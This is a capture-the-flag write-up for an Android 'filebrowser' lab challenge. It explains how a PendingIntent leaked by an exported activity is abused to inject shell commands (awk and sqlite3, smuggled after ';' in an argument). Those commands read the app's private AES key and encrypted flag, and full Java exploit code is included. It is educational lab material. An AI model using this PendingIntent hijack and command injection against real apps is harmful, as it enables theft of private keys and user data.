# Solution


## Description of the problem

find something useful to get the flag

## Solution

Let's see the codes.







From the main activity, this application will receive the choices from the user with the linux command ls, du, and cat, with args, and send the intent to the class `QuaryActivity`. Then, the class `QuaryActivity` will execute ls and du commands and return the outputs of the execution. If `BuildConfig.BUILD_TYPE` or `debug` is *true*, the logs will be logged in the file `/sdcard/browser.log`. 





To set the flag, the application will get the aes key from shared preference file first, and then call the function `rawLogQuery` with `oper` = encrypted "genflag" with aes key and `arg` = encrypted flag, with the content uri "content://com.mobisec.provider.Log/log". The flag should be stored in the database. 




In addition, in class `PluginActivity`, a pending intent is created to `QueryActivity` and is put into an intent. 


```xml
<provider android:name="com.mobisec.filebrowser.LogProvider" android:enabled="true" android:exported="false" android:authorities="com.mobisec.provider.Log"/>
<activity android:name="com.mobisec.filebrowser.QueryActivity" android:exported="false"/>
<activity android:name="com.mobisec.filebrowser.AboutActivity" android:exported="false"/>
<activity android:name="com.mobisec.filebrowser.PluginActivity" android:permission="com.mobisec.filebrowser.permission.PLUGIN">
    <intent-filter>
        <action android:name="com.mobisec.browser.action.START_PLUGIN"/>
        <category android:name="android.intent.category.DEFAULT"/>
    </intent-filter>
</activity>
```

Also, in manifest of the application, the parameter exported are set to be false for all except `PluginActivity`, so we may call this activity directly. To send the intent to `PluginActivity`, we can get the pending intent to call `QueryActivity` When calling QueryActivity, the extended data need to be added into the intent to set `debug` = *true*, and two parameters `oper` and `arg`. 

> By giving a PendingIntent to another application, you are granting it the right to perform the operation you have specified as if the other application was yourself (with the same permissions and identity). As such, you should be careful about how you build the PendingIntent


To make the analysis system prints out the key stored in the shared preference file, we can use the command `ls ; awk 'NR==X'  /data/data/com.mobisec.filebrowser/shared_prefs/keys.xml` to print the Xth line of the file. According to the codes in class QueryActivity, the application can only get one line from the commands and write it to the log, I try to print the line one by one and find out that the key is stored in the third line of shared preference file.




For the key is generated randomly for each time, we should split the printed information for the key first, and then get the encrypted flag from the database. For the database name is "LogDb", the path of the database should be `/data/data/com.mobisec.filebrowser/databases/LogDb`. We can query this database to get the encrypted flag, and decrypt it. For the flag is set at the beginning of the program, the *id* for the flag storage should be 1. Also this can be tested by query the table *log* to get the `oper` and `arg`.




As the screenshot below, `I query SELECT oper FROM log where id=1;` and get the result the same as `encOper`, so the flag is in the first row of the table.




According to the reference for the [SQLite](https://sqlite.org/cli.html), the command for query should be `sqlite3 /data/data/com.mobisec.filebrowser/databases/LogDb \"SELECT arg FROM log where id=1;\"`. I put this query command into a new intent and also send the pending intent with it. The query result is written to a new file in SD card. Then reading this new file and using the key to descript it, and the flag is got.




The full codes refer to [here](AndroidStudioProjects_exploitation/filebrowser/app/src/main/java/com/example/filebrowser/MainActivity.java)

```java
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent i = new Intent();
        i.setComponent(new ComponentName("com.mobisec.filebrowser","com.mobisec.filebrowser.PluginActivity"));
        i.setAction("com.mobisec.browser.action.START_PLUGIN");
        startActivityForResult(i,400);

    }

    String[] key = new String[1];
    String encOper = "";

    @SuppressLint("Range")
    @Override
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {
        super.onActivityResult(requestCode, resultCode, data);

        try {
            Bundle bundle1 = data.getExtras();
            final PendingIntent pi1 = (PendingIntent) bundle1.get("pi");
            final Intent i1 = new Intent();
            i1.putExtra("debug", true);
            i1.putExtra("oper", "ls");
            i1.putExtra("arg", " ; awk 'NR==3'  /data/data/com.mobisec.filebrowser/shared_prefs/keys.xml");

            pi1.send(this, 1, i1, null, null);

            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }

            String readfile = readFile("/sdcard/browser.log");
            Log.i("MOBISEC", readfile);
            key[0] = readfile.substring(23, 23 + 20);
            Log.i("MOBISEC", "key[0]: " + key[0]);

            byte[] aesKey = getAesKey(key[0]);
            Log.i("MOBISEC", "aesKey: " + Arrays.toString(aesKey));

            encOper = bin2hex(encrypt("genflag".getBytes(), aesKey));
            Log.i("MOBISEC", "encOper: " + encOper);         

            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }

            final Intent i2 = new Intent();
            i2.putExtra("debug", true);
            i2.putExtra("oper", "ls");
            i2.putExtra("arg", " ;  sqlite3 /data/data/com.mobisec.filebrowser/databases/LogDb \"SELECT arg FROM log where id=1 ;\" > /sdcard/r.txt    ");
            pi1.send(this, 2, i2, null, null);

            try {
                TimeUnit.SECONDS.sleep(2);
            } catch (InterruptedException e) {
                e.printStackTrace();
            }

            String readfile1 = readFile("/sdcard/r.txt");
            Log.i("MOBISEC", readfile1);
            String f = new String(decrypt(hex2bin(readfile1), aesKey));
            Log.w("MOBISEC",f);
        }
        catch  (Exception e) {
            Log.w("MOBISEC",Log.getStackTraceString(e));
        }     
    }
```


In my program, the following permissions are given:

```xml
<uses-permission android:name="android.permission.WRITE_EXTERNAL_STORAGE"
    tools:ignore="ScopedStorage" />
<uses-permission android:name="android.permission.READ_EXTERNAL_STORAGE"/>
<uses-permission android:name="com.mobisec.filebrowser.permission.PLUGIN" android:protectionLevel="normal" />
```


## Optional Feedback

The hex2bin function (`public static byte[] hex2bin(String hex) throws NumberFormatException`) provided by the reversed code cannot be used. I don't know where the exception or error is. 




## reference

Save data using SQLite: https://developer.android.com/training/data-storage/sqlite

<provider>: https://developer.android.com/guide/topics/manifest/provider-element?hl=zh-cn

PendingIntent: https://developer.android.com/reference/android/app/PendingIntent

Android PendingIntent: https://www.jianshu.com/p/4a8fc0b78094

SQLite database storage location and files: https://www.cnblogs.com/AnneHan/p/14987091.html

SQLite commands: https://www.runoob.com/sqlite/sqlite-commands.html

hex2bin: https://www.jianshu.com/p/6c147330f4b9

Command Line Shell For SQLite: https://sqlite.org/cli.html